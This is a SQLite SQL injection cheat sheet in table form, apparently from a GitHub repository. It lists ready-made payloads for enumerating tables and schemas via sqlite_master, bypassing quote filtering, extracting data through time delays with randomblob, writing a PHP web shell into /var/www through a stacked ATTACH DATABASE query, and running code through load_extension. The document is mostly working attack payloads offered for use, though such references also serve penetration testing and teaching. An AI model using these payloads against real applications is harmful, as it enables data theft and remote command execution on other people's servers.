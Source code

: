 # SQLite SQL Injection Cheat Sheet

|If you need                  |                                    You use                                      |
|-----------------------------|:-------------------------------------------------------------------------------:|
|Concatenation                |                                     \|\|                                        |
|Comments                     |                                      --                                         |
|Conditionals                 |  CASE WHEN key='value1' THEN 'something' WHEN key='value2' THEN 'somethingelse' |
|Substring                    |                          substr(string,start,stop)                              |
|Length                       |                              length(string)                                     |
|Quotes without literal quotes|              cast(X'27' as text)  *--use X'22' for double quotes*               |
|Table name enumeration       |               SELECT name FROM sqlite_master WHERE type='table'                 |
|Table schema enumeration     |                SELECT sql FROM sqlite_master WHERE type='table'                 |
|Time-based data extraction   |    cond='true' AND 1=randomblob(100000000) *--causes time delay if cond='true'* |
|File writing                 |1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;-- *--requires either direct database access or (non-default) stacked query option enabled*|
|Arbitrary Code Execution     |load\_extension(library\_file,entry\_point) *-- .dll for Windows, .so for 'nix. Requires non-default configuration*|


This work is based on http://atta.cked.me/home/sqlite3injectioncheatsheet
